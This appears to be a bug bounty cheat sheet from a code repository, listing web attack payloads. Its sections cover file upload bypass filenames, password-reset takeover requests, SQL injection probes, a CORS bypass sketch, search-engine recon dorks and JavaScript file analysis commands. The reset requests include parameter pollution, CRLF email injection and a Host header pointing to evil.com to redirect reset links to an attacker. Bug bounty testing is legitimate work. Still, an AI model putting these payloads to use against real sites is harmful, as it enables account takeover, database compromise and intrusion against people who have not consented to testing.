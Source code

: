 # Bug Bounty Tips
---

## File Upload

`.htaccess`

`file.svg`

`file.SVg`

`file.png.svg`

`file.php%00.png`

`file.png' or '1'='1`

`../../file.png`

`file.'svg`

## Password Reset

```
POST /reset  
email=victim@tld.xyz&email=hacker@tld.xyz
```

```
POST /reset  
email=victim@tld.xyz&token=$BF$
```

```
POST /reset  
email=victim@tld.xyz&token=
```

```
POST /reset  
email=victim@tld.xyz&token=0000000
```

```
POST /reset  
email=victim@tld.xyz&token=nul
```

```
POST /reset  
email=victim@tld.xyz&token=nil
```

```
POST /reset  
email=victim@tld.xyz&token=HACKER-TOKEN
```

```
POST /reset  
email=victim@tld.xyz%0a%0dcc:hacker@tld.xyz
```

```
POST /reset  
email=victim@tld.xyz,hacker@tld.xyz
```

```
POST /reset  
email=victim@tld.xyz%20hacker@tld.xyz
```

```
POST /reset  
email=victim@tld.xyz|hacker@tld.xyz
```

```
POST /reset  
email=victim
```

```
POST /reset  
email=victim@tld
```

```
POST /reset  
Host: evil.com
```

```
POST /reset
{"email":["victim@tld.xyz","hacker@tld.xyz"]}
```

**Check body response for password token**

**Token generation: timestamp? userid? useremail? random?**

## SQL Injection

`/?q=1`

`/?q=1'`

`/?q=1"`

`/?q=[1]`

`/?q[]=1`

```/?q=1` ```

`/?q=1\`

`/?q=1/*'*/`

`/?q=1/*!1111'*/`

`/?q=1'||'asd'||'`

`/?q=1' or '1'='1`

`/?q=1 or 1=1`

`/?q='or''='`

```
username: '--' / "--"
password: '--' / "--"
```

## CORS

```python
if isBlocked("evil.com"):
  try("target.network")
  try("target.computer")
```

## Recon


`site:http://ideone.com | site:http://codebeautify.org | site:http://codeshare.io | site:http://codepen.io | site:http://repl.it | site:http://justpaste.it | site:http://pastebin.com | site:http://jsfiddle.net | site:http://trello.com "$TARGET"`

## File analysis

### Javascript

```
apt-get install jsbeautifier
wget https://target/app.js
js-beautify app.js > pretty.js
```
grep -Eo "(http|https)://[a-zA-Z0-9./?=_-]*" | sort -u
